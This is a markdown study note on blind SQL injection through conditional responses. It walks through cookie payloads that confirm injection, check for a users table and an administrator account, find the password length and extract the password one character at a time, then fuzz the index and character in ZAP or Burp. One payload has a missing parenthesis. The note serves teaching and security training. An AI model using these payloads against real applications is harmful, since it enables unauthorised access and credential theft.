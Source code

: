 ```yaml
---
title: Blind SQL Injection
date: 2025-10-13
description: Notes of blind SQL injection.
weight: 3
---
```


## Conditional Responses

A type of blind SQL injection is triggering conditional responses.

For example, there is a request to an application including a cookie header like:

```text
Cookie: TrackingId=xxx
```

And the backend query may be:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'xxx'
```

Suppose that the frontend will display a message `Welcome back` if the query is valid. Otherwise, it won't display.

This is possible to be injected blindly.

If there is a table named `users` that stores information of users, and our goal is to gain `administrator` information, we can use the following payload to find out the injection vulnerability:

```text
Cookie: TrackingId=xxx' AND '1'='1
Cookie: TrackingId=xxx' AND '1'='2
```

If the frontend changed, then it is injectable.

Then we can use `SELECT` to determine whether the table `users` exists.

```text
Cookie: TrackingId=xxx' AND (SELECT 'a' FROM users LIMIT 1)='a
```

If the message `Welcome back` is displayed, it can be confirmed that `users` table exists.

To determine whether the user `administrator` exists, we can simply modify the payload above to:

```text
Cookie: TrackingId=xxx' AND SELECT 'a' FROM users WHERE username='administrator')='a
```

After that, we can find out the length of password by using the following payload:

```text
Cookie: TrackingId=xxx' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>$guess-length$)='a
```

The `$guess-length$` is a series of numbers to determine the length of password.

Then, we can retrieve the password by using the `SUBSTRING` function. The payload is:

```text
Cookie: TrackingId=xxx' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username = 'administrator') = 'a
```

By changing `a` to any other characters until the message `Welcome back` shown, we can finally get the first character of the password.

In [Zed Attack Proxy (ZAP)](https://www.zaproxy.org) or [Burp Suite](https://portswigger.net), modify the request to

```text
Cookie: TrackingId=xxx' AND (SELECT SUBSTRING(password,$index$,1) FROM users WHERE username = 'administrator') = '$guess-char$
```

Then use the fuzz tool and we can retrieve the password.
